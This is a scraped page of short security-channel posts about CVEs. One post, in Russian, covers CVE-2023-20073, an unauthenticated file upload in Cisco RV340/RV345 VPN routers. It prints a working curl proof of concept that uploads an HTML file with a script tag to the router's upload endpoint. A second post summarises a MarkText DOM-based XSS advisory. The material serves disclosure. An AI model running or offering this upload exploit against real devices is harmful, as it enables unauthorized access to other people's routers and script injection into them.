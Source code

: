 📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# proxy_bar
`2023-08-19`

<blockquote>
CVE-2023-20073
Загрузка произвольного файла без проверки подлинности  (XSS) в VPN-маршрутизаторах:
Cisco RV340, RV340W, RV345, RV345P 
Usage:
&#35;!/usr/bin/bash
TARGET&#61;&quot;https://0.0.0.0&quot;; \
FILENAME&#61;&quot;login.html&quot;; \
echo &quot;&lt;b&gt;CVE-2023-20073&lt;/b&gt; exploit test.&lt;br&gt;&lt;script&gt;alert('JS-test')&lt;/script&gt;&quot; &gt; $FILENAME; \
curl -ksX POST &quot;$TARGET/api/operations/ciscosb-file:form-file-upload&quot; -H &quot;Authorization: 1&quot; -F &quot;pathparam&#61;Portal&quot; -F &quot;fileparam&#61;${FILENAME}&quot; -F &quot;file.path&#61;${FILENAME}&quot; -F &quot;file&#61;@${FILENAME};type&#61;application/octet-stream&quot;; \
echo &quot;Access the uploaded file through the following link: $TARGET/$FILENAME&quot;

&#35;cisco
</blockquote>

![pic](pictures/fe363186babe871d913a5ed077c777d13049c7ef170b177edfa6f630df8fd4da.jpg)

---

# cibsecurity
`2023-08-19`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-2318

<blockquote>
‼ CVE-2023-2318 ‼

DOM-based XSS in src/muya/lib/contentState/pasteCtrl.js in MarkText 0.17.1 and before on Windows, Linux and macOS allows arbitrary JavaScript code to run in the context of MarkText main window. This vulnerability can be exploited if a user copies text from a malicious webpage and paste it into MarkText.
